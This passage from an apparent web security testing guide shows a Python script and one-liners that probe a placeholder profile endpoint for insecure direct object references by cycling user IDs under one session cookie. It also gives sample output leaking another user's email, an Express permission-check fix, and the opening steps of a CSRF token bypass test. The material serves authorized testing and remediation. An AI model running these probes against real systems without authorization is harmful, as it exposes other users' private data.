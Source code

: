 **Python Script**:
```python
import requests
import sys

url = 'http://example.com/profile'
cookies = {'session_id': 'abc123'}
user_ids = [123, 456, 'admin', 999999]

try:
    for user_id in user_ids:
        response = requests.get(url, cookies=cookies, params={'user_id': user_id}, timeout=5)
        print(f"User ID: {user_id}")
        print(f"Status: {response.status_code}")
        print(f"Response: {response.text[:100]}\n")
except requests.RequestException as e:
    print(f"Error: {e}")
    sys.exit(1)
```

**Python Commands**:
- **Command 1**: Run script:
  ```bash
  python3 test_forge.py
  ```
- **Command 2**: Test single user ID:
  ```bash
  python3 -c "import requests; url='http://example.com/profile'; cookies={'session_id': 'abc123'}; params={'user_id': 456}; r=requests.get(url, cookies=cookies, params=params, timeout=5); print(r.status_code, r.text[:100])"
  ```

**Example Vulnerable Output**:
```
User ID: 456
Status: 200
Response: User Profile: otheruser@example.com
```

**Remediation**:
- Validate permissions (Express):
  ```javascript
  if (req.query.user_id !== req.session.user_id) {
      res.status(403).send('Unauthorized');
  }
  ```

**Tip**: Save script output to a file (e.g., `python3 test_forge.py > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., script output).

### 6. Test CSRF Token Bypasses with Burp Suite

**Objective**: Verify if forged requests bypass CSRF protections.

**Steps**:
1. **Capture Form Submission**:
   - Use Burp Suite to capture a request with a CSRF token (e.g., `POST /profile/update`).
2. **Modify Token**:
   - Remove or reuse the token in a forged request.
3. **Analyze Response**:
   - Check if the request is processed without a valid token.
